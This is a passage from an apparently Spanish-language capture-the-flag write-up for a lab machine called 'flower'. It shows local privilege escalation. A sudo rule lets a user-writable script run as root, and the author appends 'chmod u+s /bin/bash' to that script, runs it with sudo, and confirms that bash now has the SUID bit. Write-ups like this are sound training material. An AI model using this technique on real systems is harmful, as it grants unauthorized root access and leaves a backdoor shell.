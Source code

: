 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for rose on flower:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rose may run the following commands on flower:
    (root) NOPASSWD: /bin/bash /home/rose/.plantbook
```

Vemos que podemos ejecutar la `bash` con la ruta absoluta de `.plantbook` por lo que vamos a investigar un poco.

Si listamos los permisos que tiene veremos lo siguiente:

```
-rwx------ 1 rose rose  120 Nov 30  2020 .plantbook
```

Vemos que podemos editarlo, por lo que al final de las lineas vamos añadir lo siguiente:

```shell
nano /home/rose/.plantbook

#Dentro del nano
............................<RESTO DEL CODIGO>...................................

echo "Permisos establecidos de forma correcta..."
chmod u+s /bin/bash
```

Lo guardamos y lo ejecutamos de la siguiente forma:

```shell
sudo bash /home/rose/.plantbook
```

Info:

```
Hello, write the name of the flower that u found
test
Nice, test submitted on : Tue May 6 14:53:17 EDT 2025
Permisos establecidos de forma correcta...
```

Con esto vemos que se ha ejecutado de forma correcta, pero vamos a comprobarlo de la siguiente forma:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Vemos que se establecio los permisos `SUID` a la `bash` de forma correcta, por lo que haremos lo siguiente:
